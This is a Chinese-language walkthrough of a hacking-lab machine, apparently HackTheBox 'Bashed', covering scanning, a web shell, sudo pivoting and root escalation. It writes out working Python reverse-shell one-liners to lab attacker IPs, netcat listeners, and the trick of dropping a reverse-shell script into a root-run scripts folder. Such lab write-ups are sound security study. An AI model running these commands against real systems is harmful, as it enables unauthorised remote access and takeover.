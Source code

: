 ```yaml
---
categories:
- training
tags: 
    - training
---
```


![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/%E6%8D%95%E8%8E%B7.PNG)

**端口探测：** 

**80/tcp open** http Apache httpd 2.4.18 ((Ubuntu))

100/tcp  filtered newacct

1500/tcp filtered vlsi-lm
...

**web目录探测：**
图片一：
/config.php: PHP Config file may contain database IDs and passwords.

+ OSVDB-3268: /dev/: Directory indexing found.

+ OSVDB-3092: /dev/: This might be interesting...

+ OSVDB-3268: /php/: Directory indexing found.

+ OSVDB-3092: /php/: This might be interesting...
...

在“dev/”目录下找到php文件

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-009c05f24f81a9e9.png)

尝试bash -i 反弹shell，失败，bash版本不适合。尝试nc -e反弹shell，nc版本不支持-e参数。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/1.PNG)

用python成功反弹了一个shell（shell 1）给kali。

**kali上监听**：`nc -lnvp 1234`
**网页上运行python命令：**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**信息搜集：**

> 普通用户
> arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
> scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
> 内核版本：
> Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
> 系统版本：Ubuntu 16.04.2 LTS \n \l

[尝试内核漏洞提权：](https://www.exploit-db.com/exploits/43418/)

有内核漏洞，但gcc没有安装。

## **该怎么提权呢？**

现在用户是www-data

尝试cd /home/arrexel，看到了user.txt，获取到flag。。

我还以为会有forbidden权限不够的情况。。。怎么回事，权限没划分好么？

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-b737e461e624b35f.png)
可以看到有三列，都是r——read，分别对应”文件所有者、组群、非组群“，因为非组群的权限是read，所以可读。然后再尝试下rm删除，果然”rm: cannot remove 'a': Permission denied“

**/home/scriptmanager目录下，有个脚本，说是检查linux提权的。运行后指出了一些可以运行的exp来提权**

但是没有gcc，有exp也没用啊！

[writeup](http://sicurolab.com/walkthroughs/hackthebox-bashed/)

## sudo -u username的用法
-u username不加此参数，代表要以**root** 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）

**用shell 1运行如下命令，得到shell 2**

```
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.109",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2.PNG)
用sudo反弹了一个scriptmanager用户的shell。
在/scripts目录下，发现了它有root权限，于是我们在该目录下建立一个py脚本。
`nc -lvnp 1236`
`touch pri.py`

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > pri.py
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/3.PNG)

总结：
这个实验用了很多次python反弹shell。
用sudo -u username可以用其他用户来运行命令。
本次利用的scripts文件夹会自动运行常用的脚本，从而运行我们加入的反弹shell的py脚本。

![学习下sudoers文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/4.PNG)

注意：用户权限设置的注释下面，有一行`NOPASSWD： ALL` 说明用户使用`sudo`命令时，无需输入密码。


